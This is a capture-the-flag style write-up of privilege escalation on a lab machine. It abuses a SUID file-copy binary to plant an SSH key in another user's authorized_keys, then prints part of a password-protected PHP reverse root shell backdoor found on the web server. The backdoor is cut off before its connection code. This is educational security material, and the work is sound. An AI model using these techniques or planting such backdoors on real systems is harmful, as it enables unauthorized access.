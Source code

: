 ### www-data

Running `linpeas.sh` we see an interesting SUID binary meaning that we can execute it with the same permissions as the `zeus` user

```
-rwsr-xr-x 1 zeus zeus 18K Apr 18 09:27 /usr/bin/cputils (Unknown SUID binary)
```

Running the program we see that it is asking for a source and a destination file. With this information and the "CP" being capitalized in the ASCII art, we can assume this is some sort of file copy command.

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/ba950367-cffb-4b8a-af5e-43f265280940" /></p>

We can prove this by trying to copy the `user.flag` file to `flag.txt` in the same directory

Knowing that we can copy any file that `zeus` has access to, we can try to find a file that can help us escalate our privilages.

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/b77f9e3a-6ce3-4b82-8703-9dd3d7e38fc5" /></p>

Looking through `zeus`' home directory we can see that there is a `.ssh` directory, let's make our own key pair and copy it to `/home/zeus/.ssh/authorized_keys`

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/016c2c5e-c988-4c5e-8b67-c670c53fdff0" width="750" /></p>

Now we can upload the `id_rsa.pub` file over to the victim machine using a python3 server and copy it over using the `cputils` binary

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/7967c392-fdfd-47bf-a32b-e3081b6fc59e" width="750" /></p>

Even though we get an error message, we still get a successful login with our private key

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/3fd21a3d-6929-49c0-aade-2d937a2190a5" width="750" /></p>

<br><br>

### zeus

After running `linpeas.sh` once again and nothing notable coming up, I decided to look back into the `/var/www/` directory where the web pages are located

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/c7639552-2435-4843-b577-f5bfeb4ba5f3" /></p>

We see the two vhosts but we also see a normal `html` directory

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/9acf7da1-48b3-436e-a6c7-6eb2b691bc7a" /></p>

We find an interesting directory inside

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/df59fb09-9269-4f9a-96b0-f13c298a20cc" /></p>

Going deeper, we have another strangely-named `php` file

```php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];
```